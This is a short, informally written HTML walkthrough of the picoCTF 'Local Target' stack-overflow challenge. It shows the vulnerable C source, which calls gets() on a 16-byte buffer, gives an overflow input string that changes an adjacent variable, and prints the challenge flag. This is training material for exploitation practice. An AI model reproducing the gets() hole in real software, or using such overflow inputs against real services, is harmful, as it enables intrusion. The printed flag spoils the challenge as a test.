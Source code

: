 <title>Local Target- picogym Exclusive</title>

<!DOCTYPE html>
<html>

<body>
    <h1>Local Target- picogym Exclusive</h1>

    <h2>Challenge Description</h2>
    <p> 
AUTHOR: OVERTHEWIRE.ORG / LT 'SYREAL' JONES

Description
Smash the stack
Additional details will be available after launching your challenge instance.
instanc:Description
Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available <a href="https://artifacts.picoctf.net/c/518/local-target">here</a>. You can view source <a href="https://artifacts.picoctf.net/c/518/local-target">here</a>. And connect with it using:
nc saturn.picoctf.net 51696(file and address can be  deffirent in different instances)

</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
we download files from picoctf
<p id="code1">
$wget https://artifacts.picoctf.net/c/518/local-target
$wget  https://artifacts.picoctf.net/c/518/local-target.c
</p>
open them and see code of source and see this intersting lines
<pre>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
   
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
</pre>
it means buferoverflow and mean in this code if we enter <pre>12345678901234567890123AAAAAAAAAAAAAAAAAAAA(A 's count is different in on base of size of input</pre>
enter it and get code
</ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
</p>

 
    <h2>Conclusion</h2>
    <p>this is a    easy chanllenge for work on reverse engineering on asm and $rbp and python and get dump file and watch rbp and memories value with gdb </p>
</body>
</html>











